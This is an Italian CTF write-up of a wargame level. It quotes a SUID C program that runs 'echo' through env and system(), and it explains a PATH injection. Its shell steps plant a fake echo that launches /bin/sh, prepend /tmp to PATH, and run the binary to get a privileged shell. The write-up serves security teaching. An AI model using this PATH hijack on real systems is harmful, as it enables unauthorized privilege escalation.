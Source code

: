 ## Level01 FATTO

### Consegna

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
> 
> 
> To do this level, log in as the **level01** account with the password **level01**. Files for this level can be found in /home/flag01.
> 

### Tipo Vulnerabilità

PATH injection

### Descrizione Exploit

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  // ottiene l'effettivo GID/UID del processo (cioè i permessi attivi, ereditati dal file SUID/SGID)
  gid = getegid();
  uid = geteuid();
  
  // imposta i GID/UID reali, effettivi e salvati a quelli effettivi correnti
  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Il programma esegue un comando esterno (echo) tramite system(), senza specificare un percorso assoluto, ma tramite variabile PATH. Modificando la variabile path è possibile andare ad modificare il file echo che viene eseguito.  

TIPO: Command execution via untrusted environment (`PATH`).

```bash
nano /tmp/echo # -> creo il file echo

/bin/sh # -> ci scrivo dentro /bin/sh 

chmod +x /tmp/echo

export PATH=/tmp:$PATH # -> aggiungo a var PATH il percorso per il binario echo che fa /bin/sh

./flag01 # -> eseguo il file 
```
